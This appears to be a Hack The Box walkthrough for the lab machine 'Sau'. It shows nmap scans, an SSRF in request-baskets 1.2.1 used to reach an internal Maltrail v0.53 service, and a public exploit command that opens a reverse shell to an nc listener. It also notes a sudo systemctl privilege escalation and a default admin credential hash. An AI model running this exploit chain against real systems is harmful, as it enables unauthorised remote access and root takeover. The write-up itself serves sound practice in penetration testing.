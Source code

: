 # Sau

# User Flag

## NMAP Enumeration

All Port Scan:

```bash
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
12394/tcp filtered unknown no-response
13091/tcp filtered unknown no-response
19721/tcp filtered unknown no-response
25327/tcp filtered unknown no-response
53819/tcp filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
64901/tcp filtered unknown no-response
```


All Open Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-open-ports-nmap-report 10.10.11.224

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63
```



NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.11.224 -p 22

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
12394/tcp closed   unknown
13091/tcp closed   unknown
19721/tcp closed   unknown
25327/tcp closed   unknown
53819/tcp closed   unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 07 Aug 2024 18:04:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|_    Content-Length: 0
64901/tcp closed   unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=8/7%Time=66B3B717%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html
SF:;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"
SF:/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2
SF:0200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r
SF:(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Optio
SF:ns:\x20nosniff\r\nDate:\x20Wed,\x2007\x20Aug\x202024\x2018:04:36\x20GMT
SF:\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20n
SF:ame\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\
SF:$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration (Port 55555)

There is a web application hosted on port 55555. It allows a user to create a basket to collect and inspect HTTP requests. 

Notes:

* Website is powered by `request-baskets | Version: 1.2.1` and source code looks to be available on [github](https://github.com/darklynx/request-baskets).
* There is [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) available for this version of `request baskets` software.
* The CVE is for SSRF vulnerability, which can allow us to access internal services hosted on ports that are not accessible to external users (i.e. filtered ports 80 and 8338).
* The vulnerability works due to us being able to setup a Forward URL that forwards our request to the server. We can also enable proxy response, which will then return any response back to the client. The "Insecure TLS" set to true will bypass certificate verification and "Expand Path" set to true makes the forwared url path expanded when the original http request contains a compound path. Sending a request with the configuration below returns the application hosted on port 80 and 8338. 

![SSRF](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/SSRF.png)

* Found application Maltrail (v0.53) hosted on port 80.

![Maltrail](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/Maltrail%20Application.png)

* Application has RCE vulnerability which can be exploited using script from [here](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main).

```bash
# exploit script
python3 exploit.py 10.10.14.47 443 http://10.10.11.224:55555/n5wtoms

# netcat listening
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.224] 42082
$
```

Can now get the user flag:

```bash
$ ls -lar
ls -lar
total 876
-rw-r----- 1 root puma     33 Aug  7 16:46 user.txt
```

# Root flag

Checking sudo permissions returns the following:

```bash
puma@sau:/opt/maltrail$ sudo -l

Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This can be exploited to spawn a shell ([article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager))

Check the `maltrail.conf` file and found default password for admin:

```bash
admin:9ab3cd9d67bf49d01f6a2e33d0bd9bc804ddbe6ce1ff5d219c42624851db5dbc:0:                        # changeme!
```

Hash decodes to `changeme!`.













